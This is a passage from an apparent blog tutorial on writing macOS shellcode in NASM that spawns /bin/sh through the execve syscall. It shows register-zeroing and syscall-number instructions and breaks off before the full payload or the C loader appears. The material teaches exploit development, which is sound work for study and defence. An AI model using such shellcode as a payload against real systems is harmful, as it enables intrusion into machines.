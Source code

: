![malware](/assets/images/169/2025-08-01_14-42.png){:class="img-responsive"}   

Despite using `execve("/bin//sh", NULL, NULL)`, which is technically non-compliant on `macOS`, it launches a fully functional shell. Let's dive in.    

### practical example

What is the main goal? Create a macOS shellcode that spawns `/bin/sh` using the `execve` syscall with no arguments or environment. We'll write it in pure NASM and launch it via a simple C loader using `mmap`.     

We start by clearing `eax` and `edx`. This sets up registers with known zeroes and avoids using `.data` or `.bss`:     

```nasm
xor     esi, esi         ; zero out ESI
mul     esi              ; zero out RAX, RDX
```

Then, set syscall number:    

```nasm
bts     eax, 25          ; set the 25th bit => eax = 0x02000000
mov     al, 59           ; eax = 0x0200003b (execve syscall on macOS)
```
